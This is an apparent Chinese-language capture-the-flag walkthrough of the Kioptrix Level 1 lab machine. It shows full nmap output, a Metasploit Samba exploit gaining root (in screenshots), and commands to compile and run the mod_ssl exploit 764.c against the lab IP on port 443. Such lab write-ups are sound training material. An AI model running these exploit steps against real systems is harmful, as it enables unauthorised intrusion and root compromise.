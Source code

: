 ```yaml
---
# 这是页面的图标
icon: api
# 这是文章的标题
title: 靶机 KIOPTRIX:LEVEL 1 Walkthrough
# 设置作者
author: lhz
# 设置写作时间
time: 2022-03-21
# 一个页面只能有一个分类
category: 渗透
# 一个页面可以有多个标签
tag:
  - 渗透
  - 靶机
comment: false

typora-root-url: ..\..\..\.vuepress\public

---
```

## 0x01 扫描

扫描IP，发现主机IP

192.168.56.104

扫描端口

`nmap -T5 -A -v -p- 192.168.56.104`

```
└─$ nmap -T5 -A -v -p- 192.168.56.104  
Starting Nmap 7.92 ( https://nmap.org ) at 2022-03-21 00:14 EDT
NSE: Loaded 155 scripts for scanning.
NSE: Script Pre-scanning.
Initiating NSE at 00:14
Completed NSE at 00:14, 0.00s elapsed
Initiating NSE at 00:14
Completed NSE at 00:14, 0.00s elapsed
Initiating NSE at 00:14
Completed NSE at 00:14, 0.00s elapsed
Initiating Ping Scan at 00:14
Scanning 192.168.56.104 [2 ports]
Completed Ping Scan at 00:14, 0.00s elapsed (1 total hosts)
mass_dns: warning: Unable to determine any DNS servers. Reverse DNS is disabled. Try using --system-dns or specify valid servers with --dns-servers
Initiating Connect Scan at 00:14
Scanning 192.168.56.104 [65535 ports]
Discovered open port 443/tcp on 192.168.56.104
Discovered open port 111/tcp on 192.168.56.104
Discovered open port 80/tcp on 192.168.56.104
Discovered open port 139/tcp on 192.168.56.104
Discovered open port 22/tcp on 192.168.56.104
Discovered open port 1024/tcp on 192.168.56.104
Completed Connect Scan at 00:14, 4.34s elapsed (65535 total ports)
Initiating Service scan at 00:14
Scanning 6 services on 192.168.56.104
Completed Service scan at 00:14, 11.01s elapsed (6 services on 1 host)
NSE: Script scanning 192.168.56.104.
Initiating NSE at 00:14
Completed NSE at 00:14, 10.42s elapsed
Initiating NSE at 00:14
Completed NSE at 00:14, 1.15s elapsed
Initiating NSE at 00:14
Completed NSE at 00:14, 0.00s elapsed
Nmap scan report for 192.168.56.104
Host is up (0.00031s latency).
Not shown: 65529 closed tcp ports (conn-refused)
PORT     STATE SERVICE     VERSION
22/tcp   open  ssh         OpenSSH 2.9p2 (protocol 1.99)
| ssh-hostkey: 
|   1024 b8:74:6c:db:fd:8b:e6:66:e9:2a:2b:df:5e:6f:64:86 (RSA1)
|   1024 8f:8e:5b:81:ed:21:ab:c1:80:e1:57:a3:3c:85:c4:71 (DSA)
|_  1024 ed:4e:a9:4a:06:14:ff:15:14:ce:da:3a:80:db:e2:81 (RSA)
|_sshv1: Server supports SSHv1
80/tcp   open  http        Apache httpd 1.3.20 ((Unix)  (Red-Hat/Linux) mod_ssl/2.8.4 OpenSSL/0.9.6b)
|_http-server-header: Apache/1.3.20 (Unix)  (Red-Hat/Linux) mod_ssl/2.8.4 OpenSSL/0.9.6b
|_http-title: Test Page for the Apache Web Server on Red Hat Linux
| http-methods: 
|   Supported Methods: GET HEAD OPTIONS TRACE
|_  Potentially risky methods: TRACE
111/tcp  open  rpcbind     2 (RPC #100000)
| rpcinfo: 
|   program version    port/proto  service
|   100000  2            111/tcp   rpcbind
|   100000  2            111/udp   rpcbind
|   100024  1           1024/tcp   status
|_  100024  1           1024/udp   status
139/tcp  open  netbios-ssn Samba smbd (workgroup: MYGROUP)
443/tcp  open  ssl/https   Apache/1.3.20 (Unix)  (Red-Hat/Linux) mod_ssl/2.8.4 OpenSSL/0.9.6b
|_http-server-header: Apache/1.3.20 (Unix)  (Red-Hat/Linux) mod_ssl/2.8.4 OpenSSL/0.9.6b
| ssl-cert: Subject: commonName=localhost.localdomain/organizationName=SomeOrganization/stateOrProvinceName=SomeState/countryName=--
| Issuer: commonName=localhost.localdomain/organizationName=SomeOrganization/stateOrProvinceName=SomeState/countryName=--
| Public Key type: rsa
| Public Key bits: 1024
| Signature Algorithm: md5WithRSAEncryption
| Not valid before: 2009-09-26T09:32:06
| Not valid after:  2010-09-26T09:32:06
| MD5:   78ce 5293 4723 e7fe c28d 74ab 42d7 02f1
|_SHA-1: 9c42 91c3 bed2 a95b 983d 10ac f766 ecb9 8766 1d33
|_ssl-date: 2022-03-21T17:14:49+00:00; +12h59m59s from scanner time.
| http-methods: 
|_  Supported Methods: GET HEAD POST
| sslv2: 
|   SSLv2 supported
|   ciphers: 
|     SSL2_RC2_128_CBC_EXPORT40_WITH_MD5
|     SSL2_RC4_128_EXPORT40_WITH_MD5
|     SSL2_RC4_128_WITH_MD5
|     SSL2_DES_64_CBC_WITH_MD5
|     SSL2_RC4_64_WITH_MD5
|     SSL2_RC2_128_CBC_WITH_MD5
|_    SSL2_DES_192_EDE3_CBC_WITH_MD5
|_http-title: 400 Bad Request
1024/tcp open  status      1 (RPC #100024)

Host script results:
|_clock-skew: 12h59m58s
|_smb2-time: Protocol negotiation failed (SMB2)
| nbstat: NetBIOS name: KIOPTRIX, NetBIOS user: <unknown>, NetBIOS MAC: <unknown> (unknown)
| Names:
|   KIOPTRIX<00>         Flags: <unique><active>
|   KIOPTRIX<03>         Flags: <unique><active>
|   KIOPTRIX<20>         Flags: <unique><active>
|   \x01\x02__MSBROWSE__\x02<01>  Flags: <group><active>
|   MYGROUP<00>          Flags: <group><active>
|   MYGROUP<1d>          Flags: <unique><active>
|_  MYGROUP<1e>          Flags: <group><active>

NSE: Script Post-scanning.
Initiating NSE at 00:14
Completed NSE at 00:14, 0.00s elapsed
Initiating NSE at 00:14
Completed NSE at 00:14, 0.00s elapsed
Initiating NSE at 00:14
Completed NSE at 00:14, 0.00s elapsed
Read data files from: /usr/bin/../share/nmap
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 27.20 seconds

```

## 0x02 方法一

发现samba，使用smbclinet没有扫出来版本，使用msf扫描发现版本

![image-20220415181220010](/assets/img/image-20220415181220010.png)

搜索exp发现

![image-20220415181234735](/assets/img/image-20220415181234735.png)

使用msf利用



![image-20220415181245923](/assets/img/image-20220415181245923.png)

尝试payload，修改LHOST后利用成功，获得root权限

![image-20220415181255633](/assets/img/image-20220415181255633.png)

![image-20220415181300663](/assets/img/image-20220415181300663.png)

## 0x03 方法二

​	使用nikto扫描

![image-20220415181311227](/assets/img/image-20220415181311227.png)

发现mod_ssl存在问题，搜索exp

![image-20220415181318656](/assets/img/image-20220415181318656.png)

尝试使用764

还需要安装libssl-dev: 

```
apt-get install libssl-dev
```

编译764.c

```
gcc -o 764 764.c -lcrypto
```

执行exp

```
./764 0x6b 192.168.56.104 443 -c 50
```

因为网络问题，目标机无法下载COMMAND2下载提权代码，所以只获得apache权限，正常情况下可以直接获得root权限
